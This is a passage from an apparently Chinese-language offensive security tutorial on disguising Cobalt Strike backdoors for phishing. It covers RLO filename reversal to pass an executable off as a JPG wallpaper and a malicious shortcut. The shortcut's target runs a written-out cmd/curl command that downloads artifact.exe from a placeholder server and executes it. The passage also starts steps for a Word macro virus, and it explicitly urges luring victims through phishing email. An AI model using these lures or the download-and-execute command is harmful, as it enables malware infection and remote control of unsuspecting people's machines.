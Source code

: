 [![](assets/1701612327-d56042cf382acd2b22fc87e09a87de28.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710171324-061fa934-1f02-1.png)

步骤四：把文件重命名为壁纸 gpj.exe，再使用 RLO 对后缀进行反转，最后效果如下

[![](assets/1701612327-15de252257e5a8e6583bf2433077ed5a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710171405-1e5ff17a-1f02-1.png)

结合邮件钓鱼等方式把“图片”放送给他人，引诱他人上钩

对方双击“图片”后，会同时执行 artifact.exe 和壁纸.jpg，而且上线 cs

[![](assets/1701612327-d525000e5573cf5773d45bfd8bb523f2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710171829-bbbbd2ea-1f02-1.png)

### 0x02.快捷方式

制作思路：运行快捷键方式时，执行命令让其下载我们提前放在服务器上的后门程序并且运行

步骤一：cs 生成后门，放到服务器网站目录下  
[![](assets/1701612327-2280c67556cd4722efd00748abbf2e5a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710171426-2aee8424-1f02-1.png)

步骤二：创建快捷方式，在目标中写入以下代码

```plain
C:\Windows\System32\cmd.exe /k curl http://xxx.xxx.xxx.xxx/exe/artifact.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe
```

[![](assets/1701612327-08c67e9cc1f4d07bca52e6f4e8ec76d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710171449-388e1c70-1f02-1.png)

步骤三：更换图标，增加其真实性  
[![](assets/1701612327-955b39e5c715e115f7e7805e68690a7f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710171506-42ae8942-1f02-1.png)

[![](assets/1701612327-4634a663fca0bfd38439c9aba0226475.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710171944-e831fafc-1f02-1.png)

当对方双击快捷键方式时就会下载我们准备好的 artifact.exe 并且执行

[![](assets/1701612327-8bc3fefe69f42fc6d31c17d9d5dd5615.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710172007-f61095de-1f02-1.png)

### 0x03.Word 宏病毒

宏病毒是 Word 中被嵌入的带有恶意行为的宏代码（VBA 代码），当我们双击打开带有宏病毒的 word 文档的时候它的宏代码会自动运行。

步骤一：使用 cs 生成恶意 vba 代码

[![](assets/1701612327-46a6986d95afb1d56fd659b27e7dfde5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710172829-21845e70-1f04-1.png)

[![](assets/1701612327-678d495e743baa827e363c724f0ad8f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710172840-27d71380-1f04-1.png)

步骤二：新建 doc 文档，创建宏，保存即可

[![](assets/1701612327-9548032cbe60342d247d7087f99465ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710172906-378785d0-1f04-1.png)

